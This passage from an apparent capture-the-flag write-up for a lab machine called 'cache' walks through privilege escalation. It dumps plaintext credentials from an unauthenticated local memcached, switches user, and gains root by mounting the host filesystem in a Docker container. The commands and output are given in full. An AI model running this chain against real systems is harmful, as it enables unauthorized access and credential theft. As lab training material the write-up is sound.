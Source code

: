 ##### 5.1. Privesc to second user

1. Interesting process running (close to box name)

```
memcache  1108  0.0  0.1 425792  4044 ?        Ssl  12:00   0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

2. Interacting with `memcache`

```
ash@cache:~$ telnet localhost 11211
```


3. `memcache` stats

```
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 365
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
```

4. `memcache` data dump - info

```
stats cachedump 1 1000
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

5. `memcache` data dump - creds

```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

6. Access to `luffy` user

```
ash@cache:~$ su - luffy
Password: 0n3_p1ec3
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

##### 5.2. Root flag

1. Ubuntu image is present

```
luffy@cache:~$ docker --version
Docker version 18.09.1, build 4c52b90
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
```

2. Classic Docker privesc

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu bash
root@eea57746ba1a:/mnt/root# ls -la
total 44
drwx------  6 root root 4096 May  5 11:21 .
drwxr-xr-x 23 root root 4096 May  5 11:14 ..
lrwxrwxrwx  1 root root    9 May  5 11:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3145 Sep 18  2019 .bashrc
drwx------  2 root root 4096 Sep 18  2019 .cache
drwx------  3 root root 4096 Sep 18  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep 17  2019 .local
lrwxrwxrwx  1 root root    9 May  5 11:21 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep 18  2019 .selected_editor
drwx------  2 root root 4096 Sep 17  2019 .ssh
-rw-------  1 root root  532 Sep 17  2019 .viminfo
-rw-------  1 root root   33 May 12 12:01 root.txt
root@eea57746ba1a:/mnt/root# cat root.txt
201b6fa2bec627b214f9efa717fd2f1c
```
